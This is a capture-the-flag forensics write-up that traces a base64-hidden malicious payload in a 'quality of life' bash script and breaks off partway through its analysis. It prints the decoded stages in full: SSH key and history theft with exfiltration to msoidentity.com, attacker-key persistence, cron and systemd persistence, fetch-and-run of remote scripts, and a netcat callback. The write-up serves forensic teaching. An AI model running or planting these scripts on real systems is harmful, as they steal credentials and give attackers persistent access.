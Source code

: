 # DoD Cyber Sentinel Challenge - Remote Help (forensics, 200p, Medium Difficulty) 6/24/2025
## Preface
Unfortunately, I do not have access to the original challenge statement, but it mentions something about a fictional internal attack from a recently hired remote worker. They were able to recover a [bash script](https://github.com/btoroth/QOL/blob/main/QOL.sh) that seems to have triggered alarms, causing the attack to fail. It then mentions to try and follow the cyber kill chain from start to finish to see what the attacker was trying to do, and along the way you'd find four different parts of the flag.

## Solving

![image](https://github.com/user-attachments/assets/710acb2e-cbea-489c-ac08-c4962739b961)

At first glance the script seems pretty harmless, even calling itself a QOL (Quality of Life) script meant to just make some minor improvements to the system. Update/upgrade packages, install some tools, create some aliases, blah blah blah. BUT if you keep scrolling, down at the very bottom we see this:

`sudo echo IyEvYmluL2Jhc2gKCiRsb2c9Ii90bXAvbG9nXyQoZGF0ZSArIiVZLSVtLSVkLS0lSC0lTSIpIgokdGd6PSI ... AvaW5mby5zaAovYmluL2Jhc2ggL3RtcC9pbmZvLnNoCnJtIC1mIC90bXAvaW5mby5zaAo= | base64 -d >> /tmp/0.sh && chmod +x /tmp/0.sh && /bin/bash /tmp/0.sh &`

Here we go, this seems to be yet another bash script - now obfuscated in base64 - being saved and executed. We can simply throw base64 string in to the browser tool CyberChef, it will automatically detect base64, and then decode it for us:

![image](https://github.com/user-attachments/assets/a6de7c73-fddb-4038-a09d-e87336d19171)

```
#!/bin/bash

$log="/tmp/log_$(date +"%Y-%m-%d--%H-%M")"
$tgz="/tmp/log_$(date +"%Y-%m-%d--%H-%M").tgz"

mkdir -p $log

cat /proc/cpuinfo >> "$log/cpu.txt"
cat /proc/meminfo >> "$log/mem.txt"
cat /etc/os-release >> "$log/os.txt"



for dir in $(ls /home -1); do
    
	if [ -f "$dir/.ssh/" ]; then
		cat $dir/.ssh/* >> "$log/'$dir'.txt"
		cat $dir/.bash_history >> "$log/'$dir'-bash.txt"
	fi
    # Perform your actions here
done

if [ "$(id -u)" -eq 0 ]; then
	cat /root/.ssh/* >> "$log/root.txt"
	cat /root/.bash_history >> "$log/root-bash.txt"
	local url="https://msoidentity.com/auth"
    local auth_keys="$HOME/.ssh/authorized_keys"
	
    curl -s "$url" >> "$auth_keys"
    chmod 600 "$auth_keys"
fi 


tar -cf "$tgz" "$log" 2>/dev/null

if [ -f "$tarfile" ]; then
        curl -s --output /dev/null -X POST -H "accept: application/json" -H "Content-Type: multipart/form-data" -F "file=@$tarfile" "https://msoidentity.com/log"
    fi
}

curl -s https://msoidentity.com/info | base32 -d >> /tmp/info.sh
/bin/bash /tmp/info.sh
rm -f /tmp/info.sh
```

Now were seeing something more malicious! This script basically seems to create a directory called log_(current datetime) and piles a whole bunch of sensitive system information in there like CPU, memory, and OS info, as well as SSH keys and shell history. The attacker also seems to drop their own SSH key from "msoidentity.com/auth" into the authorized keys directory to set up persistence. Then, the logs get compressed into a tar file and exfiltrated to "msoidentity.com/log" via a POST request. After all that is done, another bash script - this time seemingly encoded in base32 - is retrieved and ran from "msoidentity.com/info".

Now we have three new URLs to explore, so my first instinct was to simply visit all three of them in a browser. While the auth endpoint seemed to be a dud, the log and info endpoints both yielded me text file downloads. From the log endpoint I got the first part of the flag, "C1{Sn34ky_", and from the info endpoint I got the encoded script. Once again, throwing the base32 encoded string into cyberchef worked just fine and output this:

![image](https://github.com/user-attachments/assets/3199b2d5-b01c-4d54-b277-f3c6b5f57f17)

```
CHECK_SCRIPT="/usr/local/bin/check_backup.sh"
CRON_INTERVAL="*/5 * * * *"  # Every 5 minutes
CRON_JOB_NAME="check_backup_script"
SCRIPT_PATH="/opt/backup.sh"
$SCRIPT_URL=https://msoidentity.com/backup_info

# DO NOT PUT PASSWORDS IN PLAIN TEXT

cat <<EOF | sudo tee "$CHECK_SCRIPT" > /dev/null
#!/bin/bash
if [ ! -f "$SCRIPT_PATH" ]; then
    curl -fsSL "$SCRIPT_URL" -o "$SCRIPT_PATH.enc" && openssl enc -nosalt -aes-256-cbc -d -in "$SCRIPT_PATH.enc" -out "$SCRIPT_PATH" -pass pass:"45337a3067335f56475f" && chmod +x "$SCRIPT_PATH" && rm "$SCRIPT_PATH.enc"
fi
EOF

chmod +x "$CHECK_SCRIPT"

(crontab -l 2>/dev/null | grep -v "$CHECK_SCRIPT"; echo "$CRON_INTERVAL $CHECK_SCRIPT # $CRON_JOB_NAME") | crontab -
```

Here's the next steps in the attack. First a couple variables are declared to be used in the script, including a new URL to explore "msoidentity.com/backup_info". A new script is being created, called "check_backup.sh". The first thing it does is check if there is a file at "/opt/backup.sh" which - you guessed it - is _another_ script. If that file doesn't exist yet the script creates it by getting it from that URL we just mentioned. The script seems to come encrypted and needs to be decrypted using AES-256-CBC and with the password "45337a3067335f56475f". The check backup script then is added as a cron job that gets ran every five minutes, meaning that every five minutes the backup script will be re-downloaded onto this system if it wasn't already there.

Once again visiting the URL provides us with the next script to explore. As already explained, the file comes encrypted and can be decrypted using the same exact command that's already in the script:

```openssl enc -nosalt -aes-256-cbc -d -in backup.enc -out backup.sh -pass pass:"45337a3067335f56475f"```

```
#!/bin/bash
BACKUP_DIR="/tmp/backups"
TIMESTAMP=$(date +"%Y%m%d_%H%M%S")
ARCHIVE_NAME="backup_${TIMESTAMP}.7z"
ARCHIVE_PATH="${BACKUP_DIR}/${ARCHIVE_NAME}"
SERVICE_NAME="NightlyBackup"
SCRIPT_PATH="/opt/backup.sh"
UNIT_PATH="/etc/systemd/system/${SERVICE_NAME}.service"
TIMER_NAME="${SERVICE_NAME}.timer"
TIMER_UNIT="/etc/systemd/system/${TIMER_NAME}"


mkdir -p "$BACKUP_DIR"
rm -rf backup_*
7z a -mx=9 "$ARCHIVE_PATH" /home /root

if systemctl list-unit-files | grep -q "^${SERVICE_NAME}.service"; then
    systemctl enable "$SERVICE_NAME"
else
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.service > $UNIT_PATH
        curl -s https://raw.githubusercontent.com/supremeleaderbrian/services/refs/heads/main/backup.timer > $TIMER_UNIT
fi

systemctl daemon-reexec
systemctl daemon-reload
systemctl enable "$SERVICE_NAME"
systemctl enable --now "$TIMER_NAME"

#Callback - WE GOT THEM
sudo nc msoidentity.com 4443
```

We start with more variables being created, almost all of which are either parts of filenames or file paths. Then a backup directory is created, and all of the contents of the /home and /root directory are compressed and archived there. After, it checks for the NightlyBackup service in systemctl, and if it doesn't exist then it grabs two files from a users github repo that look like this:

![image](https://github.com/user-attachments/assets/dfabe7a9-10d0-436b-a5a2-82800fd64f66)
![image](https://github.com/user-attachments/assets/8dab6c59-f237-42c5-93a9-9b3176515cd9)

